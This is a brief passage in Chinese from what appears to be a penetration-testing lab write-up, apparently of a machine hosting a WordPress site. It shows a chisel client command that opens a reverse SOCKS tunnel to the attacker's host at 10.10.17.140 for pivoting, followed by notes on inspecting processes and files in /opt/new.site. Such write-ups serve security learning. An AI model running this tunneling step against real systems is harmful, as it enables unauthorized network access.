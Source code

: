 
Wordpres网站

## 搭建隧道

接着使用chisel建立隧道。  
./chisel\_1.7.7\_linux\_amd64 client 10.10.17.140:8000 R:socks

[![](assets/1704158243-55b0b1fa399a50202ee749892b068f17.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231231213204-fca6e94a-a7e0-1.png)

查看其进程。

[![](assets/1704158243-64ab939f6205def22a5b5abbb42a3bee.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231231213233-0d74a794-a7e1-1.png)

进入/opt/new.site：发现一些文件。

[![](assets/1704158243-160171b3eb66ca3d44641fce39cc395a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231231213245-14fc906c-a7e1-1.png)
